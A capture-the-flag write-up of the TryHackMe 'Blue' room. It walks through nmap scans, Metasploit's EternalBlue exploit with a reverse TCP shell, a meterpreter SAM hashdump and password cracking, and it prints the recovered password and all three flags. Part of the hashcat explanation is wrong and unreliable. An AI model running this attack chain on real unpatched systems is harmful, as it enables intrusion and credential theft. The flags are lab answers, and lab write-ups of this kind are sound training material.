# Blue

Author: Corbett Stephens July 14, 2021

Blue is a TryHackMe room that explores the "Eternal Blue" exploit from older versions of windows. 

Room is [here](https://tryhackme.com/room/blue).

--------------------------------------------------------------------------------------------------

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

`sudo openvpn nullbett.ovpn`

## Reconnaissance
Host ip address: `10.10.48.230`

Next, I ping the host to see if we can get a response.

`ping 10.10.48.230`

Respones:
`PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms`

We can see that the host is up and running, so now we can start with a nmap scan.

I run the command:
`nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap`

- "-p0-1000" scans the first 1000 ports
- "-sC" uses the default script for enumeration
- "-sV" tries to specify versions
- "-vv" extra verbosity
- "-oN initial.nmap" writes the output to the file initial.nmap

Looking at the [output](https://github.com/nullbett/tryhackme/blob/main/blue/initial.nmap) we can see that three ports are open.

---
**NOTE**

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

---


We also get a hint that a potential user is "Jon".

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan but I decided to use two seperate scans. If stealth was a concern then I would otherwise use a different command.

I'm used the same command but changed the script to "vuln".

`nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap`

Luckily, the results yield some intersting information.
<div>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
</div>

Do to our vuln script we can see that this system is vulnerable to smb-vuln-ms17-010 which is a remote code execution vulnerability.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the [article](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) we can see that ms17-010 is also known as "EternalBlue". This is helpful information because it will make it easier a module to use within metasploit.

-----------------------------------------------------------------------------------------------------

#Gaining Access

We now want to try to gain futher access of this machine. We have a potential attack vector with EternalBlue. For someone that doesn't know the first step in using the EternalBlue exploit, use your favorite search engine to look for a starting position.

Fire up Metasploit!

In Kali Linux, you can do this by searching metasploit in the home bar and then typing in your sudo password. Otherwise, you'll want run "sudo msfdb init && msfconsole"

Once the metasploit shell is spawned the fun can begin.

Since my initial attack vector consists of EternalBlue, then I will look for a module that will allow me to use it.

This can be done via:
"search eternalblue" 

The module we want is "exploit/windows/smb/ms17_010_eternalblue" because this uses windows versions prior to windows 8

![](ms_module.png)

An easy way to select the module you want to use is to enter "use <number>" so we would enter "use 2"

We want to know the required fields for this module. This can be done by entering the command "options". This will allows us to see some important information.

**Picture**

We need to set the RHOSTS which is the target host that we are attacking. We do this by entering:

"set RHOSTS 10.10.48.230"

The playload we want to use is the "windows/x64/shell/reverse_tcp"

We can set this as the payload by doing "set payload windows/x64/shell/reverse_tcp"

To run the exploit we can simply enter "exploit"

If the exploit is successful then a DOS (disk operationg system) will appear. 

If we run "whoami" it tells us that we are "nt authority\system"

We want upgrade this shell to a meterprerter shell. Background the current shell by doing "CTRL + Z". I used this article to help upgrade my shell https://www.hackingarticles.in/command-shell-to-meterpreter/ 


I used "sessions -u 1"

**PICTURE**

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". This is shown below.

**PICTURE**

Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the "hashdump" command we can get this data and try to make something useful with it.

We get the following data:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

In this case, we are interested in Jon. I created a file named "jon_hash.txt" and put the hash values into the file. I decided that the long string of data was two 32 character hash strings and put them on seperate lines. To crack this hash, I used hashcat. I ran the following command. 

hashcat -m 0 -a 0 jon_hash.txt ./rockyou.txt --show

"-m 0" straight mode
"-a 0" MD5
"jon_hash.txt" hash file
"./rockyou.txt" dictionary
"--show" show results

john jon.hash --format=NT --wordlist=./rockyou.txt
john jon.hash --format=NT --show
Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

password:alqfna22

#Task 5: Find Flags!

The first flag can be found by 'cd \' and then type 'flag1.txt'

Flag 1: flag{access_the_machine}

The second flag is found in config
C:\Windows\system32\config
"cat flag2.txt"

Flag 2: flag{sam_database_elevated_access}

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: flag{admin_documents_can_be_valuable}
